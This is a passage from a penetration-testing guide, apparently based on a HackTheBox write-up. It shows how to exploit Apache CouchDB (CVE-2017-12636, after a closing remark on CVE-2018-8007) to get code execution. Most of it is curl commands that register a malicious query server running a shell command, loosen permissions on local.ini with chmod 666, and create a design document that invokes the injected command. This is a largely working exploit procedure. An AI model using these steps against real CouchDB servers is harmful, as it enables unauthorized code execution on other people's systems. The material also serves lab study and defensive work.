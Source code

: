 This exploration confirms the viability of CVE-2018-8007 exploitation under specific conditions, notably the requirement for writable access to the `local.ini` file. The provided code examples and procedural steps offer a clear guide for replicating the exploit in a controlled environment.

For more details on CVE-2018-8007, refer to the advisory by mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Exploring CVE-2017-12636 with Write Permissions on local.ini**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

A vulnerability known as CVE-2017-12636 was explored, which enables code execution via the CouchDB process, although specific configurations may prevent its exploitation. Despite numerous Proof of Concept (POC) references available online, adjustments are necessary to exploit the vulnerability on CouchDB version 2, differing from the commonly targeted version 1.x. The initial steps involve verifying the CouchDB version and confirming the absence of the expected query servers path:

```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```

To accommodate CouchDB version 2.0, a new path is utilized:

```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```

Attempts to add and invoke a new query server were met with permission-related errors, as indicated by the following output:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

Further investigation revealed permission issues with the `local.ini` file, which was not writable. By modifying the file permissions with root or homer access, it became possible to proceed:

```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```

Subsequent attempts to add the query server succeeded, as demonstrated by the lack of error messages in the response. The successful modification of the `local.ini` file was confirmed through file comparison:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

The process continued with the creation of a database and a document, followed by an attempt to execute code via a custom view mapping to the newly added query server:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```
